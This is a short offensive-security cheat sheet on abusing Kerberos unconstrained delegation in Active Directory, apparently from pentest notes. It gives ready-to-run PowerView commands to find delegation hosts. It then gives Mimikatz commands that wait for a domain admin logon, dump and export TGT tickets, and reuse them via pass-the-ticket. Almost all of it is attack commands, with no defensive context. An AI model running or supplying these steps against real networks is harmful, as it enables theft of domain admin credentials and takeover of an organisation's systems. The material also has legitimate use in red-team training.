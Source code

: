 # 🟢 Unconstrained Delegation

### **Discover domain computers that have unconstrained delegation**

Domain Controllers always show up, ignore them

```
 . .\PowerView_dev.ps1
Get-Netcomputer -UnConstrained
Get-Netcomputer -UnConstrained | select samaccountname
```

### **Check if any DA tokens are available on the unconstrained machine**

Wait for a domain admin to log in while checking for tokens

```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### **Export the TGT ticket**

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### **Reuse the TGT ticket**

```
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```
